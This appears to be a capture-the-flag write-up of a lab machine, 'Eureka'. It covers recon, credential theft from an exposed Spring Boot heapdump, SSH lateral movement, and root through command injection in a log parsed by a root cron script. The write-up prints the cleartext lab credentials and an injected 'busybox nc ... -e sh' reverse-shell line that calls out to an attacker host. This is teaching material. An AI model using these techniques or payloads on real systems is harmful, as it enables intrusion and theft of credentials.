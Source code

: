 ## Initial Reconnaissance
Starting with an nmap scan to identify open ports and services:
```
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    syn-ack ttl 63 nginx 1.18.0 (Ubuntu)
8761/tcp open  http    syn-ack ttl 63 Apache Tomcat (language: en)
```
I ran `whatweb` to gather more information about the webserver:
```
$ whatweb -a 3 10.129.136.130
http://10.129.136.130 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.129.136.130], RedirectLocation[http://furni.htb/], Title[301 Moved Permanently], nginx[1.18.0]
ERROR Opening: http://furni.htb/ - no address for furni.htb
```
This showed I needed to add `furni.htb` to my `/etc/hosts` file to properly resolve the domain.
## Web Application Analysis
The website contains a login/register form. I tested for injection vulnerabilities and noticed an error when using a very long email:
```sql
could not execute statement [Data truncation: Data too long for column &#39;last_name&#39; at row 1] [insert into users (email,first_name,is_staff,last_name,password) values (?,?,?,?,?)]; SQL [insert into users (email,first_name,is_staff,last_name,password) values (?,?,?,?,?)]
```
This revealed information about the database structure and confirmed it was likely Spring Boot related. I also attempted to add an `is_staff=true` parameter during registration to gain privileged access, but it didn't work.
## Directory Enumeration
Using dirsearch, I discovered several interesting directories:
```
[03:26:46] 200 -    6KB - /actuator/env
[03:26:46] 200 -   15B  - /actuator/health
[03:26:46] 200 -    2B  - /actuator/info
[03:26:46] 200 -    3KB - /actuator/metrics
[03:26:46] 405 -  114B  - /actuator/refresh
[03:26:46] 200 -   54B  - /actuator/scheduledtasks
[03:26:46] 400 -  108B  - /actuator/sessions
[03:26:46] 200 -   36KB - /actuator/configprops
[03:26:46] 200 -   35KB - /actuator/mappings
[03:26:46] 200 -   99KB - /actuator/loggers
[03:26:46] 200 -  180KB - /actuator/conditions
[03:26:46] 200 -  198KB - /actuator/beans
[03:26:46] 200 -  132KB - /actuator/threaddump
[03:26:47] 400 -  106B  - /admin/%3bindex/
[03:26:48] 200 -   76MB - /actuator/heapdump
```
This confirmed the backend was running on Spring Boot. The `/actuator/heapdump` endpoint was particularly interesting as it provides a heap dump from the application's JVM, which could contain sensitive information.
## Finding Credentials in Heap Dump
I downloaded the heap dump file and began searching for unencrypted passwords:
```
$ strings ~/Downloads/heapdump | grep 'password' -a2 -b2
```
This revealed some interesting entries:
```
18842863-com.mysql.cj.exceptions.WrongArgumentException#
18842911-jdbc:mysql://localhost:3306/Furni_WebApp_DB
18842955:{password=0sc@r190_S0l!dP@sswd, user=oscar190}!
18843003-^+P#
18843008-com.mysql.cj.conf.ConnectionUrl!
```
Found JDBC connection credentials:
- Username: `oscar190`
- Password: `0sc@r190_S0l!dP@sswd`
Looking for potential HTTP requests:
```
$ strings ~/Downloads/heapdump | grep -E "^Host:\s+\S+$" -C 10
```
This revealed an HTTP request with Basic Auth:
```
X-Frame-Options: DENY
Content-Length: 0
Date: Thu, 01 Aug 2024 18:29:30 GMT
Keep-Alive: timeout=60
Connection: keep-alive
PUT /eureka/apps/FURNI/eureka:Furni:8082?status=UP&lastDirtyTimestamp=1722535252684 HTTP/1.1
Accept: application/json, application*;q=0.8
Accept-Language: en-US,en;q=0.8
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Cookie: SESSION=NjFhMTAxMDAtM2UxZi00Y2QyLTgwZmMtZDczYWVlNmFhNTAx
User-Agent: Mozilla/5.0 (X11; Linux x86_64)
Forwarded: proto=http;host=furni.htb;for="127.0.0.1:38464"
X-Forwarded-Port: 80
X-Forwarded-Host: furni.htb
host: 10.10.16.17:8081
username=miranda.wise%40furni.htb&password=IL%21veT0Be%26BeT0L0ve&_csrf=Eaz1o7Q2S6zhFBhhbWkJWOE_jmx0cSLNf-0UxudV6jAPLFHCI5SUlI1Uep_MciBXXEQ9PoRdow0SFBLgR4h39dVh3gM6Gmf3
```
I decoded the HTML-encoded password:
- `IL%21veT0Be%26BeT0L0ve` → `IL!veT0Be&BeT0L0ve`
I noticed a user directory in the home folder:
```
drwxr-x--- 8 miranda-wise miranda-wise 4096 Mar 21 13:26 miranda-wise
```
## Lateral Movement to miranda-wise
Using the credentials I captured, I was able to SSH in as `miranda-wise`.
## Privilege Escalation
After getting access as miranda-wise, I ran linpeas which revealed an interesting file:
```
/opt/log_analyze.sh
```
I used pspy64 to see if this script was being run by a privileged user:
```
2025/04/30 13:50:03 CMD: UID=0     PID=127920 | /bin/bash /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
```
This confirmed the script was being run by the root user. Inspecting the script, I noticed it used `grep -oP 'Status: \K.*'` to extract what comes after "Status:" in the log file.
The critical vulnerability was that the script extracted unsanitized input from the log file and assigned it directly to a variable, indicating a command substitution injection possibility.
## Root Shell via Command Injection
I crafted an exploit by injecting a command substitution within a log entry that would execute during variable assignment in the `analyze_http_statuses` function:
```bash
miranda-wise@eureka:~$ rm -rf /var/www/web/cloud-gateway/log/application.log
miranda-wise@eureka:~$ echo 'HTTP Status: x[$(busybox nc 10.10.16.17 3001 -e sh)]' > /var/www/web/cloud-gateway/log/application.log
miranda-wise@eureka:~$ /opt/log_analyse.sh /var/www/web/cloud-gateway/log/application.log
```
The `x[...]` wrapper would execute the reverse shell before failing any comparison in the script. After waiting for the script to be executed by the root cron job, I received a root shell on my netcat listener.

